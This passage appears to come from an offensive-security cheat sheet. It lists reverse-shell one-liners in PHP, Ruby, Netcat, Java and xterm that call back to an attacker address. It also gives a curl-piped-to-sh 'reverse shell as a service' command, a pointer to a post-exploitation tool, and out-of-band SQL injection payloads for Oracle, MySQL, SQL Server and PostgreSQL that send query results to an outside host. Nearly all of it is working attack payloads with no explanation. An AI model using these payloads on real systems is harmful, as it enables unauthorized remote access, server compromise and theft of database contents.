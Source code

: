 <br># PHP
<br>```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

<br># Ruby
<br>```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

<br># Netcat
<br>```nc -e /bin/sh 10.0.0.1 1234```
<br>```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

<br># Java
<br>```r = Runtime.getRuntime()```
<br>```p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])```
<br>```p.waitFor()```

<br># xterm
<br>```xterm -display 10.0.0.1:1```
<br>```Xnest :1```
<br>```xhost +targetip```

https://reverse-shell.sh/
<br># Reverse Shell as a Service
<br>```nc -l 1337```
<br>```curl https://reverse-shell.sh/yourip:1337 | sh```

https://github.com/calebstewart/pwncat
<br># pwncat is a post-exploitation platform for Linux targets.

### <a name="SQLi-Manual"></a>SQLi (SQL Injection)
https://arxiv.org/abs/1303.3047
<br># This paper describes an advanced SQL injection technique where DNS resolution process is exploited for retrieval of malicious SQL query results.

<br># Oracle
<br>```'||(SELECT%20UTL_INADDR.GET_HOST_ADDRESS('xpto.example.com'))||'```
<br>```'||(SELECT%20UTL_HTTP.REQUEST('http://xpto.example.com')%20FROM%20DUAL)||'```
<br>```'||(SELECT%20HTTPURITYPE('http://xpto.example.com').GETCLOB()%20FROM%20DUAL)||'```
<br>```'||(SELECT%20DBMS_LDAP.INIT(('xpto.example.com',80)%20FROM%20DUAL)||'```

<br># MySQL
<br>```'||(SELECT%20LOAD_FILE('\\xpto.example.com'))||'```

<br># Microsoft SQL Server
<br>```'+;EXEC('master..xp_dirtree"\\xpto.example.com\"');+'```
<br>```'+;EXEC('master..xp_fileexist"\\xpto.example.com\"');+'```
<br>```'+;EXEC('master..xp_subdirs"\\xpto.example.com\"');+'```

<br># PostgreSQL
<br>```'||;COPY%20users(names)%20FROM%20'\\xpto.example.com\';||'```

### <a name="SSTI"></a>SSTI (Server Side Template Injection)
https://www.youtube.com/watch?v=SN6EVIG4c-0
<br># Template Injections (SSTI) in 10 minutes
